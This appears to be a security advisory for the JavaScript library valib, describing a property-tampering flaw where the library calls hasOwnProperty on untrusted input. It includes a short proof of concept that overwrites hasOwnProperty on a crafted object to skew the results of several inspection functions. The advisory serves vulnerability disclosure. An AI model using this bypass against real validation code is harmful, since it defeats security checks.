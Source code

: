 # Overview

`valib` is a A standalone javascript library tailored for validation, this package is vulnerable to Internal Property Tampering.

A maliciously crafted JavaScript object can bypass several inspection functions provided by valib. Valib uses a built-in function `hasOwnProperty` from the unsafe user-input to examine an object. It is possible for a crafted payload to overwrite this function to manipulate the inspection results to bypass security checks.

# Proof of Concept

```
"use strict";
var valib = require('valib');
var json = {
    key1: null,
    key2: {
        url: "http://example.com"
    },
    key3: "17850",
    key4: "OK",
    key5: "2012-10-06T04:13:00 00:00",
    key6: [1, 2, 3],
    key7: "Yes"
};
json.hasOwnProperty = function(val) {return false;}
function test(userJson){
    console.log(valib.Object.isEmpty(userJson));
    console.log(valib.Object.countKeys(userJson));
    console.log(valib.Object.hasValue(userJson, "Yes"));
}
test(json);
```